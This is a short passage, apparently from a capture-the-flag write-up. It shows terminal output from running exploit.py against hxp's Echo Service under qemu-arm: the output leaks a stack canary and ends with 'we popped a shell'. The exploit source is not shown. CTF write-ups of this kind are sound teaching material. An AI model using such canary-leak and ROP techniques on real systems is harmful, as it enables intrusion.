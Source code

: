 ```
```

When we run it:

```
$    python exploit.py
[+] Starting local process '/usr/bin/qemu-arm': pid 20280
Welcome to hxp's Echo Service!
>
 00000000000000000000000000000000000000000
Stack canary: 0x2c7cd100
[*] Switching to interactive mode

> 0000000000000000000000000000000000000000
> $ w
 16:35:30 up  4:17,  1 user,  load average: 1.09, 1.18, 1.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               12:19   ?xdm?  26:12   0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
canary    exploit.py  readme.md  ROPgadget.py
```

Just like that, we popped a shell!